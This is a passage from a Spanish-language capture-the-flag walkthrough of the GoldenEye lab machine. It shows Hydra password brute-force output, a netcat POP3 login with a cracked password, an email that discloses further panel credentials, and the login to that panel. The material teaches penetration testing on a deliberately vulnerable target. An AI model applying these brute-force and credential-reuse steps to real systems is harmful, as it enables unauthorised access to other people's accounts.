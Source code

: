 ```bash
[STATUS] attack finished for 10.11.12.21 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-18 13:09:23
```

Validamos los mails.

```bash
❯ nc 10.11.12.21 55007
+OK GoldenEye POP3 Electronic-Mail System
user doak
+OK
pass goat
+OK Logged in.
list
+OK 1 messages:
1 606
retr 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!

.
```

Ingresamos al panel con los datos brindados.

![drdoak](/assets/img/commons/vulnhub/GoldenEye1/drdoak.png){: .center-image }

Encontramos un archivo txt en los archivos privados.

